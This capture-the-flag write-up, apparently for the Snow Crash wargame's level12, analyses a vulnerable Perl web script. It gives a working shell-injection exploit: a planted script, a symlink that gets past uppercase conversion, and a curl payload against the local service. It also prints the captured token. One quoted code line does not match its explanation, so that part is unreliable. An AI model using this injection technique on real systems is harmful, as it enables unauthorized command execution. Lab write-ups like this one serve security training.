 # level12

1. Files found in `~/` :

    ```bash
    level12.pl
    ```

2. Analysis of the `level12.pl` script

    The service listens on `127.0.0.1:4646` and processes GET parameters `x` and `y`.
    The script uses command substitution with `@output = grep /$x/, @output;` where `$x` is directly inserted into the command.
    Problem : the `$x` variable is **concatenated** directly into a shell command → **shell injection possible**.

3. Exploitation

    The process executes with the rights of `flag12` → the objective is to execute `/bin/getflag` on the server side and write the output to a file readable by the user.

    ```bash
    # Create a malicious script
    echo "/bin/getflag > /tmp/token" > /tmp/script.sh
    chmod 777 /tmp/script.sh

    # Create a symbolic link to bypass restrictions related to uppercase conversion
    ln -s /tmp/script.sh /tmp/HACK

    # Exploit the injection via curl
    curl -Gs 'http://127.0.0.1:4646/' \
    --data-urlencode 'x=";/*/HACK;#' \
    --data-urlencode 'y='

    # Retrieve the created token
    cat /tmp/token
    ```

4. Token discovered

    The token is : `g1qKMiRpXf53AWhDaU7FEkczr`
